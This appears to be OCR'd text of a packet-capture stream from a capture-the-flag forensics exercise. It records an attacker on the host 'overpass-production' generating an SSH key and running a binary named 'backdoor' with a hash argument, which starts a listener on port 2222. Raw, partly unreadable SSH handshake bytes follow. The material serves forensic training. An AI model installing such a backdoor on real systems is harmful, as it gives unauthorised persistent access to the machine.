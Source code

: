 

Enter same passphrase again: 

Your identification has been saved in id_rsa.

Your public key has been saved in id_rsa.pub.

The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production

The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+

james@overpass-production:~/ssh-backdoor$ 

chmod +x backdoor

james@overpass-production:~/ssh-backdoor$ 

./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed


<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222

## Communication on 2222

SSH-2.0-OpenSSH_8.2p1 Debian-4

)ºH)nE4C×@@kÀ¨ªÀ¨ª®ìòøUâª6Vã{þ^#
5RéÂcüÀÔú$Îîü9²¨N¿qcurve25519-sha256@libssh.org,ecdh-sha2-nistp256,ecdh-sha2-nistp384,ecdh-sha2-nistp521,diffie-hellman-group14-sha1ssh-rsaUaes128-gcm@openssh.com,chacha20-poly1305@openssh.com,aes128-ctr,aes192-ctr,aes256-ctrUaes128-gcm@openssh.com,chacha20-poly1305@openssh.com,aes128-ctr,aes192-ctr,aes256-ctrBhmac-sha2-256-etm@openssh.com,hmac-sha2-256,hmac-sha1,hmac-sha1-96Bhmac-sha2-256-etm@openssh.com,hmac-sha2-256,hmac-sha1,hmac-sha1-96nonenoneb*2YÊcZHDà

)n)ºHE&Ã@@7À¨ªÀ¨ªìò®6Vã{øUäªõÜ
Âc5Réä
þþçãÃ ®êOË72